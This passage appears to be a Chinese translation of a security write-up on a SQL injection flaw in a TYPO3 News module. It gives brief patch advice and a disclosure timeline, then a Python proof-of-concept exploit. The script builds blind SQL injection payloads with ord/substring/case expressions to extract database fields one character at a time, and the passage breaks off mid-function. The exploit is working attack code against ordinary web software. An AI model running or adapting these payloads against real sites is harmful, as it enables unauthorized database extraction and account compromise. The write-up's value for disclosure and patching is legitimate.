 我们现在就能够进行盲注了。 默认情况下，会话会绑定IP，这意味着我们无法使用它们来劫持帐户。 我们需要下载并强制进行暴力破解。

<br>

**补丁**

补丁的最佳方法是通过将overrideDemand的参数设置为零来阻止用户更改需求参数。 另一种方法是阻止从GET和POST中包含OrderByAllowed的任何案例变体和URL编码的键。

<br>

**时间线**

2017-01-05发送电子邮件到TYPO3的安全团队，报告通过DateField就可以漏洞利用（相同的向量，只不过更容易）

2017-01-20漏洞被发现，TYPO3表示已经修补

2017-01-25报告了通过OrderByAllowed可以进行漏洞利用

2017-04-05多次尝试后仍然没有回答

<br>

**Exploit**



```
#!/usr/bin/python3
# TYPO3 News Module SQL Injection Exploit
# https://www.ambionics.io/blog/typo3-news-module-sqli
# cf
#
# The injection algorithm is not optimized, this is just meant to be a POC.
#
import requests
import string
session = requests.Session()
session.proxies = {'http': 'localhost:8080'}
# Change this :-)
URL = 'http://vmweb/typo3/index.php?id=8&amp;no_cache=1'
PATTERN0 = 'Article #1'
PATTERN1 = 'Article #2'
FULL_CHARSET = string.ascii_letters + string.digits + '$./'
def blind(field, table, condition, charset):
    # We add 9 so that the result has two digits
    # If the length is superior to 100-9 it won't work
    size = blind_size(
        'length(%s)+9' % field, table, condition,
        2, string.digits
    )
    size = int(size) - 9
    data = blind_size(
        field, table, condition,
        size, charset
    )
    return data
def select_position(field, table, condition, position, char):
    payload = 'select(%s)from(%s)where(%s)' % (
        field, table, condition
    )
    payload = 'ord(substring((%s)from(%d)for(1)))' % (payload, position)
    payload = 'uid*(case((%s)=%d)when(1)then(1)else(-1)end)' % (
        payload, ord(char)
    )
    return payload
def blind_size(field, table, condition, size, charset):
    string = ''
    for position in range(size):
        for char in charset:
            payload = select_position(field, table, condition, position+1, char)
```